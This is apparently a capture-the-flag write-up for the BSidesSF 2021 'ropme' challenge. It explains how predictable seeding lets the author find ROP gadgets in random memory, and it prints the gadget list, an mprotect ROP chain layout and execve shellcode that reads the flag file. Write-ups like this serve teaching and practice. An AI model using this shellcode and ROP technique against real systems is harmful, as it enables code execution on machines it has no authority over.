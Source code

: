 ## ropme (BSIDESSF2021)

I didn't really participate in the ctf, but I found this challenge to be
interesting and since not many teams solved it/posted writeups I decided to
post my solution. It's probably not the most elegant - if you solved it in a
different way I'd love to hear about it.

In this writeup, I'm assuming you have a basic understanding of x86 architecture, return oriented programming, and the Linux API.

## Exploitable Service

We're given a service binary and its source code.

```bash
[joey@gibson]$ file ropme
ropme: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b82649cdb66e4b3f92ea5fd28e374b5793cb9f26, not stripped
```

The target binary is a 32-bit ELF. This will be useful when we are writing our
exploit. Let's take a look at the important parts of the source code.

```C
// Generate a random block of +rwx memory that'll be filled randomly
uint32_t *random_code = mmap((void*)CODE_START, CODE_LENGTH, 
                                PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

// Allocate memory for the user to send us a stack - it's just +rw
uint8_t  *stack = mmap((void*)STACK_START, STACK_LENGTH, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

...

alarm(TIME);

// Set the randomness in stone at the outset
time_t t = time(NULL);

// Immediately let the user know how much time they have
printf("The current time is: %ld\n", t);
printf("You have %d seconds to make this work\n", TIME);

// Populate the random code block using a predictable RNG
int i;
srand(t);
for(i = 0; i < CODE_LENGTH / 4; i++) {
    random_code[i] = rand();
}

```
The service allocates two memory regions:

* `random_code` with read, write, and exec permissions at address
      `CODE_START` (`0x13370000`)
      
* `stack` with just read and write permissions and an address chosen by the
      system (`STACK_LENGTH` is `NULL`)

The program uses `time(2)` to generate the seed for pseudo-random number
generation and conveniently tells the client what that seed is. It proceeds to
fill `random_code` memory region with (you guessed it!) pseudo-random 32-bit
numbers.

Finally the service reads `STACK_LENGTH` bytes of user input into the `stack`
region, uses `asm(3)` to clear all of the registers, set the stack pointer
(`esp`) to the `stack` memory region and immediately `ret`'s.

What's going on here? Essentially, a contrived example of a stack overflow
vulnerability, exploitable via Return Oriented Programming (ROP). Instead of
writing a vulnerable program, the author of this challenge cut to the chase
and generated an artificial stack for our exploit. The first thing that happens
after we populate that stack is the `ret` operation, so we already control the
instruction pointer (`eip`) with the first four bytes of our input.

## Dumpster diving for gadgets

We control `eip` but the only place we can reliably jump to is the `random_code`
memory region, filled with junk. Lots of interesting things can be found in the
junk!

Turns out if you generate `0x500000` of pseudo-random bytes, *some* of those
bytes will happen to be ROP gadgets. Remember that we are handed over the seed
for pseudo-random number generation, which means we can recreate `random_code`
locally (even if we weren't given the seed - one second is a *long* time - we
could call `time(2)` locally and get the same result).

The exploitation plan is straightforward - generate the same random
memory that the service did and find the necessary gadgets for our ROP chain.
There's only one problem - our ROP gadgets can't be too long. The longer
the instruction the less chances we have of finding it in the randomly
initialized memory.

What happens if not all gadgets are present? We just try again! I wrapped my
exploit with a shell script that kept trying until the exploit was successful.
Through trial and error I found that we can find any two-byte gadget (including
`ret`) with every attempt. A three-byte gadget already calls for some
bruteforcing, so we must keep those to a minimum (my ROP chain ended up having
two three-byte gadgets - I bet there's a better solution out there).

## Exploit methodology

The goal of this challenge is to read the contents of `/home/ctf/flag.txt`. As
is often the case with restricted exploitation environment, instead of attacking
this problem head-on, we will modify the environment to make exploitation
easier for us. We have full control over the stack, but it is set as
non-executable. Our ROP chain will have to change the `stack` memory region
permissions to executable. Then we simply jump into the stack and execute the
second stage shellocde, which will read the flag for us.

To change permissions of a memory region, we utilize the `mprotect(2)` system
call. If you've read the man page you know that `mprotect` might expect a
page-aligned address and length. Since we
don't know the stack address, the first thing our ROP chain needs to do is grab
the stack address from the stack pointer. As this is our first operation, `esp`
will be pointing at `stack+4`, so we decrement `ebx` four times. Now we pop the
rest of the arguments and the syscall number to the respective registers and run
`int 0x80` (remember we're dealing with a 32-bit system).

Here is the list of gadgets we're looking for:

```asm
; gadget 0
; used to grab the stack address
89 e3   mov ebx, esp
c3      ret

; gadget 1
; used to page align the stack address
4b      dec ebx
c3      ret

; gadget 2
; used for syscall parameter loading
58      pop eax
c3      ret

; gadget 3
; used for syscall parameter loading
59      pop ecx
c3      ret

; gadget 4
; used for syscall parameter loading
5a      pop edx
c3      ret

; gadget 5
; everyone's favorite interrupt
cd 80   int 0x80
c3      ret

; gadget 6
; jump to our second stage shellcode
ff e4   jmp esp
```
The stack layout will look like this:
```C
        *((uint32_t *)(exploit+0)) = mov_ebx;   // address of mov ebx, esp gadget
        *((uint32_t *)(exploit+4)) = dec_ebx;   // address of dec ebx gadget
        *((uint32_t *)(exploit+8)) = dec_ebx;
        *((uint32_t *)(exploit+12)) = dec_ebx;
        *((uint32_t *)(exploit+16)) = dec_ebx;
        *((uint32_t *)(exploit+20)) = pop_eax;  // address of pop eax gadget
        *((uint32_t *)(exploit+24)) = 125; // __NR_mprotect
        *((uint32_t *)(exploit+28)) = pop_ecx;  // address of pop ecx gadget
        *((uint32_t *)(exploit+32)) = 4096; // page-aligned stack size
        *((uint32_t *)(exploit+36)) = pop_edx;  // address of pop edx gadget
        *((uint32_t *)(exploit+40)) = (PROT_EXEC|PROT_WRITE|PROT_READ);
        *((uint32_t *)(exploit+44)) = int_80;   // address of int 0x80 gadget
        *((uint32_t *)(exploit+48)) = jmp_esp;  // address of jmp esp gadget
```
Upon returning from `mprotect` we should be able to jump to `esp`. There's a
caveat. The calling convention uses the stack for arguments, but we're already
using the stack for our code. We need a new stack! Seems obvious, but I took
that for granted and spent an hour wondering why my exploit was coring.
Fortunately, we can just use `random_code` segment as our new stack. The first
order of business in our second stage shellcode will be to move an address in
`random_code` into `esp`. Besides that it's just a vanilla `execve` shellcode
that's going to cat the flag.

```C
    0xbc, 0x00, 0x00, 0x38, 0x13,       // mov    esp,0x133800000 ; new stack
    0x6a, 0x0b,                         // push   0xb
    0x58,                               // pop    eax
    0x31, 0xd2,                         // xor    edx,edx
    0x52,                               // push   edx
    0x68, 0x2f, 0x63, 0x61, 0x74,       // push   0x7461632f
    0x68, 0x2f, 0x62, 0x69, 0x6e,       // push   0x6e69622f
    0x89, 0xe3,                         // mov    ebx,esp
    0x68, 0x78, 0x74, 0x00, 0x00,       // push   0x7478
    0x68, 0x61, 0x67, 0x2e, 0x74,       // push   0x742e6761
    0x68, 0x66, 0x2f, 0x66, 0x6c,       // push   0x6c662f66
    0x68, 0x65, 0x2f, 0x63, 0x74,       // push   0x74632f65
    0x68, 0x2f, 0x68, 0x6f, 0x6d,       // push   0x6d6f682f
    0x89, 0xe1,                         // mov    ecx,esp
    0x52,                               // push   edx
    0x51,                               // push   ecx
    0x53,                               // push   ebx
    0x89, 0xe1,                         // mov    ecx,esp
    0xcd, 0x80,                         // int    0x80
    0x6a, 0x01,                         // push   0x01
    0x58,                               // pop    eax
    0x31, 0xdb,                         // xor    ebx, ebx
    0xcd, 0x80,                         // int    0x80
```

Let's see the exploit in action:

```shell
[joey@gibson]$ ./exploit
=== Generating random memory with seed 1615121940
...
=!!= Found EBX mov gadget @ 0x135e533c
=!!= Found INT 0x80 gadget @ 0x1385c0c8
=-= All gadgets are present! Sending the exploit..
CTF{bounce_bounce_bounce}
```


